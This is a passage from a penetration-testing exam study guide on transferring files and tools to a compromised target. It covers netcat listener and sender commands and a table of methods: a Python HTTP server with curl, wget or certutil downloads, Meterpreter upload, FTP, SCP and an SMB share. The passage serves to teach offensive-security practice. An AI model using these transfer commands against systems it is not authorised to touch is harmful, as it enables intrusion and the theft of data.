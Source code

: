 ### 6. Using Netcat (The "Last Resort" Method)
Netcat can be used to transfer raw data over any port. This is noisy and unstable for large files but can work in restricted environments.

**On the RECEIVING Machine (waiting for the file):**
```bash
# Linux (Receiver)
nc -lvnp 4444 > received_file

# Windows (Receiver)
nc.exe -lvnp 4444 > received_file
```

**On the SENDING Machine (initiating the transfer):**
```bash
# Linux (Sender)
nc -w 3 RECEIVER_IP 4444 < file_to_send

# Windows (Sender)
nc.exe -w 3 RECEIVER_IP 4444 < file_to_send.exe
```

---

### Summary Table: How to Get Your Tools On Target

| Your Situation | Best Method | Command (On Your Machine) | Command (On Target) |
| :--- | :--- | :--- | :--- |
| **You have ANY shell** | **HTTP Server** | `python3 -m http.server 80` | `curl/wget/certutil/powershell` |
| **You have Meterpreter** | **Meterpreter Upload** | `meterpreter > upload file` | (N/A) |
| **Target has FTP** | **FTP** | `ftp target_ip` + `put file` | `ftp your_ip` + `get file` |
| **Target has SSH** | **SCP** | `scp file user@target_ip:/path/` | (N/A) |
| **Target is Windows** | **SMB Share** | `impacket-smbserver ...` | `copy \\your_ip\file .` |
| **Nothing else works** | **Netcat** | `nc -lvnp 4444 > file` (recv) | `nc your_ip 4444 < file` (send) |

**Exam Tip:** The **Python HTTP Server** method is the most universal and least likely to be blocked by basic firewalls. It should be your first attempt in most scenarios. Always have a server ready (`python3 -m http.server 80`) during the exam.

***
